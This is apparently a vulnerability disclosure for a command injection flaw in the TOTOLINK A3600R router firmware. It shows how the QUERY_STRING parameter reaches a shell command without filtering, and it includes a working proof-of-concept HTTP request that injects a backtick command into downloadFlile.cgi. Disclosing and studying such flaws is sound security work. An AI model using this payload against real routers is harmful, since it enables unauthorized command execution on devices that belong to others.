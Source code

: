 # TOTOLink A3600R V4.1.2cu.5182_B20201102 Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: TOTOLINK (https://www.totolink.net/)
- **Products**: WiFi Router, such as A3600R V4.1.2cu.5182_B20201102
- **Firmware download address:** http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36



## Description

### 1.Product Information:

TOTOLink A3600R V4.1.2cu.5182_B20201102 router, the latest version of simulation overview：

![Figure 1 Update date of the latest version of the firmware](images/image-20220213010829260.png)

### 2. Vulnerability details

![image-20220213011024726](images/image-20220213011024726.png)

TOTOLINK A3600R was discovered to contain a command injection vulnerability in the "Main" function. This vulnerability allows attackers to execute arbitrary commands via the QUERY_STRING parameter.

![Figure 2 Local of the vulnerability](images/image-20220212024252932.png)

We can see that the os will get ` QUERY_STRING`  without filter splice to the string `echo QUERY_STRING:%s >/tmp/download` and execute it. So, If  we can control the `QUERY_STRING`, it can be command injection.

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
GET /cgi-bin/downloadFlile.cgi?payload=`ls>../1.txt` HTTP/1.1 
Host: 192.168.111.12 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Connection: keep-alive 
Upgrade-Insecure-Requests: 1 
Cache-Control: max-age=0
```

![Figure 3 POC attack effect](images/22.png)

![Figure 4 POC attack effect](images/33.png)